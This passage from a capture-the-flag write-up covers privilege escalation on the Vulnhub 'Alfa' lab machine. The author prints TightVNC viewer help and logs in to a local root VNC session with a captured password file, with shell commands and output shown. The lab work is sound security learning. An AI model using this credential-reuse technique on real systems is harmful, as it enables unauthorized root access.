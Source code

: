 -----
## Privilege escalation
Let's check the help function to see if we can use a password/key file.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Alfa]
└─$ xtightvncviewer 127.0.0.1:5901 -h   
TightVNC Viewer version 1.3.10

Usage: xtightvncviewer [<OPTIONS>] [<HOST>][:<DISPLAY#>]
       xtightvncviewer [<OPTIONS>] [<HOST>][::<PORT#>]
       xtightvncviewer [<OPTIONS>] -listen [<DISPLAY#>]
       xtightvncviewer -help

<OPTIONS> are standard Xt options, or:
        -via <GATEWAY>
        -shared (set by default)
        -noshared
        -viewonly
        -fullscreen
        -noraiseonbeep
        -passwd <PASSWD-FILENAME> (standard VNC authentication)
        -encodings <ENCODING-LIST> (e.g. "tight copyrect")
        -bgr233
        -owncmap
        -truecolour
        -depth <DEPTH>
        -compresslevel <COMPRESS-VALUE> (0..9: 0-fast, 9-best)
        -quality <JPEG-QUALITY-VALUE> (0..9: 0-low, 9-high)
        -nojpeg
        -nocursorshape
        -x11cursor
        -autopass

Option names may be abbreviated, e.g. -bgr instead of -bgr233.
See the manual page for more information.
```
We can use the flag `-passwd` followed by the password file to connect to the VNC server. Let's try it!
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Alfa]
└─$ xtightvncviewer 127.0.0.1:5901 -passwd remote_secret 
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Authentication successful
Desktop name "Alfa:1 (root)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding


```
It looks like we have root access, now capture the root flag!

![Image](/assets/img/WriteUp/Vulnhub/Alfa/Pasted image 20230411090409.png){: width="700" height="400" }

